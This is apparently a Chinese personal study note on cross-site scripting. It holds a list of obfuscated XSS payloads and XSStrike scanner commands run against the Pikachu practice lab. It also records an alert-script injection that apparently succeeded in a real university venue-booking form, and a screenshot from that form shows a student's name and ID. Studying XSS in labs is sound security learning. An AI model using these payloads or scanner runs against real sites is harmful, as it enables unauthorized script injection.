










**Xss有效载荷：**

}]};(confirm)()//\

<A%0aONMouseOvER%0d=%0d[8].find(confirm)>z

</tiTlE/><a%0donpOintErentER%0d=%0d(prompt)``>z

</SCRiPT/><DETAILs/+/onpoINTERenTEr%0a=%0aa=prompt,a()//

'>

='>

%3Cscript%3Ealert('XSS')%3C/script%3E

javascript_:alert('XSS')">

<!-- 这是一张图片，ocr 内容为：修改借用信息 提交 艾利除 修改 第20周星期日第12节 借用时间 2023-2024 全部 学年 北101 场地名称 至 开始时间 审核时间 13512345678 联系电话 借用原因 注:灰色表示待审核,红色表示审核不通过,绿色表 借用理由及使用要求 <SCRIPT>ALERT(1)</SCRIPT( 操作 审核状态 电话 借用时间 第12节 包 第12节 第12节 假伤假饭 XSS.PDF 选择文件 第12节 第12节 2030210120/韦秋琳 选择学生 使用人 第12节 否 使用设备 第12节 -->

直接提交xss  无效

**个人笔记：**

1.输入xss语句

这条语句的作用的在控制台打出1

<!-- 这是一张图片，ocr 内容为：-请选择一 借用原因 借用理由及使用要求  借用 第12节 第12节 第12节 XSS.PDF 选择文件 附件 第12节 -->

<!-- 这是一张图片，ocr 内容为：全部 本部 2023-2024-2 学年学期 校区 楼号 至 全部 全部 可按场 场地类别 座位数 场地名称 上午 12345678910 234567米 1 节次 周次 星期 清空 消空 5 11 1213141516181920 23 1版本V-8.0.0 中国杭州西湖区柔霞街176号 互联网创新创业园2号301 版本 版权所有COPYRIGHT 1999-2023正方软件股份有限公司 全部 是否标化考场一请选择一 场地借用类型 元素 源代码/来源网络性能内存应用EDITTHISCOOKIE 控制台 HACKBAR SUPERSEARCHPLUSTOOLS O 过滤 TOP COMIGRATE:MIGRATE IS INSTALLED,VERSION  FAILED TO LOAD RESOURCE: THE SERVER RESPONDED WITH A STATUS OF 404 (NOT FOUND) TO LOAD RESOURCE: THE SCRVER RESPONDED WITH A STATUS OF 404 (NOT FOUND) 控制台输出1,说明XSS命令执行成功 LOAD RESOURCE: THE SERVER RESPONDED WITH A STATUS OF 404 (NOT FOUND) 3 FAILED TO LOAD R 控制台 搜索X网络状况 新变化 开发者资源 LIGHTHOUSE SSACCESSKEY 0.04-06 -->

<!-- 这是一张图片，ocr 内容为：借用部门 使用人联系电话 预约人数 场地借用类型 总考试座位数 结束日期 借用理由及使用要求 使用设备 座位数 查看详细信息 使用人 开始日期 艺术工程学院 72 2024-07-14 126 查看详细信息 2024-07-14 WOAINI000 2030210120/韦秋琳 否 12672 艺术工程学院 2024-07-14 12313123 2024-07-14 2030210120/韦秋琳 查看详细信息 艺术工程学院 2024-07-14 126 72 查看详细信息 2024-07-14 2030210120/韦秋琳 126 2024-07-14 72 艺术工程学院 否 2030210120/韦秋琳 2024-07-14 查看详细信息 -->

**xss****工具：**

xsstrike

[https://github.com/s0md3v/XSStrike](https://github.com/s0md3v/XSStrike)

<!-- 这是一张图片，ocr 内容为：角辑(E)  视图(V) 转到(G)书签(B)帮助(H)帮助(H) /HOME/JIMI/XSSTRIKE/ README.MD LICENSE CHANGELOG.MD DB CORE 方问 TEST.HTML XSSTRIKE.PY REQUIREMENTS.TXT -->

**靶机****pikachu****之****xss****注入与代码分析（****XSStrike****实战）**

案例一：

命令：

python xsstrike.py -u "[http://127.0.0.1/pikachu/vul/xss/xss_reflected_get.php?message=kobe&submit=submit](http://127.0.0.1/pikachu/vul/xss/xss_reflected_get.php?message=kobe&submit=submit)" --skip --skip-dom

<!-- 这是一张图片，ocr 内容为：D:)XSSTRIKE)PYTHON XSSTRIKE.PY-H "HTIP://127.0.1/P,1/PIKACHU/VAL/XSS/XSS/XSS,ROFLECTED_BENASSRGERKOBA XSSTRIKE V3.1.4 WAF STATUS: OFFLINE TESTING PARAMETER: MESSAGE REFLECTIONS FOUND:1 ANALYSING REFLECTIONS GENERATING PAYLOADS PAYLOADS GENERATED: 3072 PAYLOAD:<DETAILS%0DONTOGGLESOA-9OACONFIRM()/ EFFICIENCY:91 CONFIDENCE:10 PAYLOAD: <A/+/ONMOUSEOVER+-+[8].FIND(CONFIRM)>V3DM0S EFFICIENCY:92 CONFIDENCE:10 PAYLOAD:<A/+/ONPOINTERENTER+-+CONFIRM()>V3DM0S EFFICIENCY:91 CONFIDENCE:10 PAYLOAD: (AGOAONMOUSEOVER%OA-%OA(CONFIRM)()%0DX>V3DMOS BFFICIENCY:91 CONFIDENCE:10 PAYLOAD: <DETAILS%OAONTOGGLE+-+(PROMPT)_%ODX// EFFICIENCY:91 CONFIDENCE:10 PAYLOAD: <DETAILS%OAONTOGGLE%09-909(CONFIRM) 0%ODX> EFFICIENCY:92 CONFIDENCE:10 -->

试一下第一个payload，利用的是html的details标签 

<!-- 这是一张图片，ocr 内容为：HU漏洞练习平台PIKA-PIKA- PIKACHU 系统介绍 XSS>反射型XSS(GET) 暴力破解 WHICH NBA PLAYER DO YOU LIKE? SUBMIT 卡 CROSSITE SCRIPTING WHO IS 概述 详细信息 反射型XSS(GET) HTTPS://BLOG.CSDN.NET/LADY_KILLER9 反时型XSS(GET) XSS WHICH NBA PLAYER DO YOU LIKE? SUBMIT WHO IS 详细信息 取消 确定 HTTPS://BLOG.CSDN.NET/LADY_KILLER9 -->

案例二：

python xsstrike.py -u "[http://127.0.0.1/pikachu/vul/xss/xsspost/xss_reflected_post.php](http://127.0.0.1/pikachu/vul/xss/xsspost/xss_reflected_post.php)" --data "message=1&submit=submit" --headers "Cookie: ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; csrftoken=7Gjcd9xR7MgIk7A7e0yks1RDppbErY9WYTFXpjxyYSzOPkEsscYH4xMZAfGzKuBy; PHPSESSID=slttj3hh1eig65tvj7ldppb984"

此命令有POST数据和Cookie

<!-- 这是一张图片，ocr 内容为：BIKACHU/VUL/XSS/XSSPOST/XSS REFLECTED POST.PHP D:\XSSTRIKE>PYTHON XSSTRIKE.PY -U HTTP://127.0.1/PIK MESSAG TV J71DPB984 XSSTRIKE V3.1.4 CHECKING FOR DOM VULNERABILITIES WAF STATUS: OFFLINE TESTING PARAMETER: MESSAGE REFLECTIONS FOUND:1 ANALYSING REFLECTIONS GENERATING PAYLOADS PAYLOADS GENERATED: 3072 PAYLOAD: (D3V%0AONMOUSEOVER%OA-%OA[8].FIND(CONFIRM)%ODX>V3DM0S EFFICIENCY:93 CONFIDENCE:10 PAYLOAD: <D3V%09ONMOUSEOVER90D-%ODCONFIRM()%0DX>V3DMOS EFFICIENCY:93 CONFIDENCE:10 PAYLOAD: <D3V%0DONMOUSEOVER50A-%0A(PROMPT)_>V3DMOS EFFICIENCY:91 CONFIDENCE:10 -->

<!-- 这是一张图片，ocr 内容为：使用第2个吧, <D3V%09ONMOUSEOVER%0D-%0DCONFIRM()%ODX>V3DM0S BURPSUITE拦截,修改POST数据 HTTP HISTORY WEBSOCKETS HISTORY INTERCEPT OPTIONS REQUEST TO HTTP://127.0.1:80 ACTION FONWARD DROP INTERCEPT IS ON RAW HEX HEADERS PARAMS POST/PIKACHU/VUL/XSS/XSSPOST/XSS REFLECTED POST.PHP HTTP/1.1 HOST:127.0.0.1 USER-AGENT:MOZILLA/5.0 (WINDOWS NT 10.0:WIN64:X64:1281.0) GECKO/201 FIREFOX/81.0 ACCEPT:TEXT/HTML,APPLICATION/XHTML+XML+XML,APPLICATION/XML:Q-0.9,IMAGE/WEBP. ACCEPT-LANGUAGE:ZH-CN,ZH:Q-0.8,ZH-TW:Q-0.7,ZH-HK:Q-0.5,EN-US:Q-0.3,EN;Q-0.2 ACCEPT-ENCODING:GZIP.DEFLATE CONTENT-TYPE:APPLICATION/X-WWW-FORM-URLENCODED CONTENT-LENGTH:23 ORIGIN:HTTP://127.0.0.1 CONNECTION:CLOSE REFERER:HTTP://127.0.1/PIKACHU/VSS/XSS/XSSPOST/XSS_REFLECTS-POST.PHP UPGRADE-INSECURE-REQUE STS:1 MESSAGE-<D3V%09ONMOUSEOVER%0D-%0DCONFFRM0%0DX>V3DMOS&SUBMIT-SUBMIT -->

<!-- 这是一张图片，ocr 内容为：127.0.0.0.1/PIKACHU/VUL/XSS/XSSPOST/XSS REFLECTED POST.PHP L...VSECWIKI-安全维基汇..... 新浪邮箱 莫 我的CSDN 来看雪学院 研究生数学建模 北京邮电大学 FREEBUF网络安全行业... 最常访问 PIKACHU漏洞练习平台 PIKA-PIKA- A XSS >S概述 系统介绍 暴力破解 WHICH NBA PLAYER DO YOU LIKE? SUBMIT - CROSS-SITE SCRIPTING 概述 你已经登陆成功,退出登陆 WHO IS V3DMOS,I DON'T CARE! 反射型XSS(GET) 反射型XSS(POST) 存储型XSS DOM型XSS DOM型XSS-X 确定 取消 XSS之盲打 HTTPS://BLOG.ESDH.NETLADY KIFFER9 XSS之过滤 -->

